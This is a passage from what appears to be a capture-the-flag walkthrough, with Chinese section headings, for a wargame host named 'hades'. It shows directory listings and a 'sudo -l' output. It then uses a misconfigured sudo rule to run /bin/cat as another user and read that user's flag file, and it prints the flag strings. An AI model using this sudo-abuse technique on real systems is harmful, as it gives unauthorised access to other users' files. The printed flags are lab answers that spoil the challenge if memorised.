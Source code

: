 ### 任务目标

```plaintext title="mission.txt"
User calliope likes to have her things looked at.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root  aegle    4.0K Jul 26  2023 .
drwxr-xr-x 1 root  root     4.0K Jul 26  2023 ..
-rw-r--r-- 1 aegle aegle     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 aegle aegle    3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 aegle aegle     807 Apr 23  2023 .profile
-rw-r----- 1 root  calliope   21 Jul 26  2023 calliope_pass.txt
-rw-r----- 1 root  aegle      22 Jul 26  2023 flagz.txt
-rw-r----- 1 root  aegle     176 Jul 26  2023 mission.txt
```

```shell title="Exploit it"
aegle@hades:~$ sudo -l
Matching Defaults entries for aegle on hades:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aegle may run the following commands on hades:
    (calliope) NOPASSWD: /bin/cat
aegle@hades:~$ sudo -u calliope /bin/cat /pwned/calliope/flagz.txt
^rFWOMwBJDidqSNtEJGJ^
```

## User - calliope

### flag - 17

```plaintext
^rFWOMwBJDidqSNtEJGJ^
```

### flag- hidden - 0xM

```plaintext
^OCbFzMIKPQOZQMEUKwEi^
```

### 任务目标

```plaintext title="mission.txt"
The user calypso often uses write to communicate.
```

### 行动

```plaintext title="ls -lah"
-rw-r--r-- 1 calliope calliope  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 calliope calliope 3.5K Jul 26  2023 .bashrc
-rw-r--r-- 1 calliope calliope  807 Apr 23  2023 .profile
drwxr-xr-x 2 root     root     4.0K Jul 26  2023 .ssh
-rw-r----- 1 root     calliope   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root     calliope  175 Jul 26  2023 mission.txt
-r-s--s--- 1 root     calliope  16K Jul 26  2023 writeme
```
